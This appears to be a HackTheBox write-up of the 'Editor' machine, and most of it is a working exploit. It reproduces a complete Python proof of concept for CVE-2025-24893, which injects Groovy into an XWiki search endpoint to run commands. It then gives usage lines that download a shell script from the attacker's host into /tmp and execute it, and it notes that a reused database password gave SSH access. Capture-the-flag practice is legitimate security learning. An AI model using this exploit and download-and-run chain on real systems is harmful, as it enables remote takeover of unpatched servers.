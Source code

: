 ```yaml
---
layout: post
title: "Editor HTB Writeup"
date: 2025-08-011 13:21:00 +0300
categories: [HackTheBox, Machines]
tags: [cybersecurity, wikicms, hackthebox, machines,hacking]
---
```



# 🎰 Editor HTB Writeup

Today i'll talk about Editor HTB machine. This machine is about WikiCMS and RCE (CVE-2025-24893)
> `CVE-2025-24893` is a RCE vulnerability in WikiCMS.
{: .prompt-warning }
---

## NMAP & Enumeration
After a quick scan in nmap and ffuf, I saw this output in nmap.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:55 +03
Nmap scan report for editor.htb (10.10.11.80)
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 80 is about a download page for editor application.
Port 8080 is WikiCMS and after a quick search in exploit-db, I realized WikiCMS has RCE vulnerability.

### (PoC)[https://github.com/Artemir7/CVE-2025-24893-EXP]
```python
import argparse
import requests
import re
from urllib.parse import urljoin, quote
import html

BANNER = """
===========================================================
                   CVE-2025-24893
            XWiki Remote Code Execution Exploit
                      Author: Artemir
===========================================================
"""

def extract_output(xml_text):
    decoded = html.unescape(xml_text)
    match = re.search(r"\[}}}(.*?)\]", decoded)
    if match:
        return match.group(1).strip()
    else:
        return None

def exploit(url, cmd):
    headers = {
        "User-Agent": "Mozilla/5.0",
    }

    payload = (
        "}}}{{async async=false}}{{groovy}}"
        f"println('{cmd}'.execute().text)"
        "{{/groovy}}{{/async}}"
    )

    encoded_payload = quote(payload)
    exploit_path = f"/xwiki/bin/get/Main/SolrSearch?media=rss&text={encoded_payload}"
    full_url = urljoin(url, exploit_path)

    try:
        response = requests.get(full_url, headers=headers, timeout=10)
        if response.status_code == 200:
            output = extract_output(response.text)
            if output:
                print("[+] Command Output:")
                print(output)
            else:
                print("[!] Exploit sent, but output could not be extracted.")
                print("[*] Raw response (truncated):")
                print(response.text[:500])
        else:
            print(f"[-] Failed with status code: {response.status_code}")
    except requests.RequestException as e:
        print(f"[-] Request failed: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2025-24893 - XWiki RCE PoC")
    parser.add_argument("-u", "--url", required=True, help="Target base URL (e.g. http://example.com)")
    parser.add_argument("-c", "--cmd", required=True, help="Command to execute")

    args = parser.parse_args()
    exploit(args.url, args.cmd)
```
## Usage of The Exploit 
```
python sa.py -u http://editor.htb:8080 -c "curl http://10.10.14.35:8080/ -O /tmp/exp.sh"
python sa.py -u http://editor.htb:8080 -c "bash /tmp/exp.sh"
```
### Getting Database Password
In `hibernate.cfg.xml` I see the password of database. The password is same with SSH.

# End
This machine is a great example of the importance of the updating.
Happy Hacking <3